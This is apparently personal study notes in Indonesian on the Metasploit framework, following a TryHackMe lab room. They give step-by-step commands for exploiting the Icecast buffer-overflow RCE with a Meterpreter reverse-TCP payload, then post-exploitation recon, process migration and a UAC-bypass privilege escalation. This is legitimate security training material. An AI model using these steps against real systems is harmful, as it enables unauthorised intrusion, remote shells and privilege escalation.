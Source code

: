 # Memakai Metasploit

Persiapan Metasploit:
```sh
sudo systemctl start postgresql

sudo msfdb init

sudo msfconsole
```

Didalam metasploit:
```sh
db_status

workspace -a intro-metasploit

workspace
```

Search module:
```sh
search

search x86/shell_reverse_tcp

search x86/shell/reverse_tcp

```

## Eksploitasi Vulnerability Icecast TryHackMe
https://tryhackme.com/room/rpmetasploit

Icecast adalah tools untuk internet audio streaming, contoh penggunaanya adalah internet radio.

Icecast pernah memiliki vulnerability Remote Code Execution (RCE)
[CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)  

Buffer overflow dengan cara mengirimkan 32 header HTTP ke server icecast versi 2.01 (hanya bekerja di Windows).

```sh
# Gunakan Nmap pada Metasploit
db_nmap -sV -T4 <IP_TARGET>

# cek isi database
hosts
services
vulns
```

Sekarang set eksploit dan payload.  
```sh
# gunakan file eksploitasi icecast versi 2.01
search icecast
use 0

# set payload, contohnya gunakan meterpreter
set payload windows/meterpreter/reverse_tcp

# lihat isi options
options

# isi yang dibutuhkan
set rhosts <IP_TARGET>
set lhost <IP_KAMU>

# jalankan eksploitasi
exploit
```

Sebelum menggunakan Meterpreter
```sh
# background process
bg

# lihat daftar session
sessions

# berinteraksi dengan session
sessions -i <Id>
```

Menggunakan Meterpreter
```sh
# informasi tentang sistem
sysinfo

# informasi tentang user
getuid

# informasi proses yang berjalan
ps

# berpindah ke proses lain, untuk mencari batu pijakan yang kuat
migrate <PID>

# get help
help
```

Post Exploitation dengan Meterpreter
```sh
# eksekusi post modul Metasploit
run post/windows/gather/checkvm

# exploit suggester
run post/multi/recon/local_exploit_suggester
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```
Exploit suggester juga memberitahukan tingkat keefektifan dari eksploit yang ditampilkan:
- Vulnerable: setelah dicek, target terbukti kuat memiliki vulnerability.
- Appears: target memiliki versi resource yang vulnerable.
- Detected: target memiliki vulnerable service yang sedang beroperasi, namun tidak dapat dicek.

Privilege Escalation
```sh
#background meterpreter
bg

# ambil salah satu informasi dari local_exploit_suggester
use exploit/windows/local/bypassuac_dotnet_profiler

# set options
set session <ID_SESSION>
set lhost <IP_KAMU>

# exploit
exploit

# percobaan migrasi ke proses lain
ps

# cari PID svchost.exe dengan kepemilikan NT Authority
migrate <PID>

# Escalated?
getuid
```


## Modul
```sh
# primer
/usr/share/metasploit-framework/modules/

# sekunder (untuk menyimpan custom module)
~/.msf4/modules/
```

Menggunakan modul, sekali sesi
```sh
# teknik 1:
msfconsole -m /lokasi/folder/modul

# teknik 2:
msfconsole
loadpath /lokasi/folder/modul

```